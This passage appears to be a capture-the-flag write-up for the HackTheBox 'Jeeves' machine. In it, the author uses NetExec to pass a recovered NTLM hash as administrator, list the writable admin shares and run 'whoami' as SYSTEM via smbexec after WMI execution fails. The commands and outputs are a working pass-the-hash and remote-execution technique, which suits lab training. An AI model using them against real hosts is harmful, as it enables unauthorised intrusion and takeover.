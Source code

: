Inside we find an NTLM hash, we can throw that on the hashkitty for a while, and see what happens. 

In the meantime, we can just pass the hash.
```bash
nxc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb8[...snip...]8cbe81fe00' --local-auth --shares
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [*] Enumerated shares
SMB         10.129.59.102   445    JEEVES           Share           Permissions     Remark
SMB         10.129.59.102   445    JEEVES           -----           -----------     ------
SMB         10.129.59.102   445    JEEVES           ADMIN$          READ,WRITE      Remote Admin
SMB         10.129.59.102   445    JEEVES           C$              READ,WRITE      Default share
SMB         10.129.59.102   445    JEEVES           IPC$            READ            Remote IPC
```
and pwnage...

Let's see if we have command execution...
```bash
nxc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' -x 'whoami'                                                            
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)                                                
SMB         10.129.59.102   445    JEEVES           [+] Jeeves\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)                                                                       
SMB         10.129.59.102   445    JEEVES           [-] WMIEXEC: Dcom initialization failed on connection with stringbinding: "ncacn_ip_tcp:10.129.59.102[49667]", please increase the timeou
t with the option "--dcom-timeout". If it's still failing maybe something is blocking the RPC connection, try another exec method                                                            
[22:37:30] ERROR    Exception while calling proto_flow() on target 10.129.59.102: TSCH SessionError: code: 0x41303 - SCHED_S_TASK_HAS_NOT_RUN - The task has not yet run.   connection.py:176
                    ╭───────────────────────────────────────────────────────── Traceback (most recent call last) ─────────────────────────────────────────────────────────╮                  
                    │ /usr/lib/python3/dist-packages/nxc/connection.py:168 in __init__                                                                                    │                  
                    │                                                                                                                                                     │                  
                    │   165 │   │   self.logger.info(f"Socket info: host={self.host}, hostname={self.hostname},                                                           │ 
```

Unfortunately, it looks like we don't have access to wmi to be able to execute commands, let's try with smbexec
```bash
nxc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' --local-auth -x 'whoami' --exec-method smbexec
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [+] Executed command via smbexec
SMB         10.129.59.102   445    JEEVES           nt authority\system
```
